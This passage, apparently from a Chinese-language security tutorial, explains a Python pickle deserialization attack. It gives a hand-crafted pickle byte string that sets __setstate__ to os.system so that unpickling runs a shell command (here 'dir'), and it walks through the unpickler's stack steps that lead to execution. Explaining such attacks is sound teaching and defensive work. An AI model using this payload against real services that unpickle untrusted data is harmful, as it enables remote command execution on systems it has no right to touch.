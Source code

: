 [![](assets/1705886719-e1687e7d8ad50bdd157b2e890e6eadd8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211243-6e605d9c-b6cc-1.png)

我们依旧拿原来得到的序列化串进行修改，在 B 类实例化中添加\_\_setstate\_\_的值为 os.system，然后再压入要执行的命令即可，修改后的 payload 为

```bash
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(V__setstate__\ncos\nsystem\nubVdir\nb.'
```

[![](assets/1705886719-9b4da469d56555627ecf0f5634b8546e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211251-72fdada0-b6cc-1.png)

> 传入这个 payload，首先 stack 弹出栈顶即为将 state 值赋为\_\_setstate\_\_这个字典，然后进入 state 的字典循环，将弹出的 key 即\_\_setstate\_\_和 value 即 system 合并到 inst\_dict 中，到第二次循环时，inst 就能够取到\_\_setstate\_\_的值，然后此时 stack 为 B 实例化对象列表，弹出的值为 dir，然后就会进入 setstate(state) 执行 system(dir)

可以看到命令执行是成功的，这里报错是因为没有给 B 实例实例化值，但是不妨碍命令的执行。

[![](assets/1705886719-0cbb07a01a45fd6423525c477f14a8d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211259-77ac5dba-b6cc-1.png)
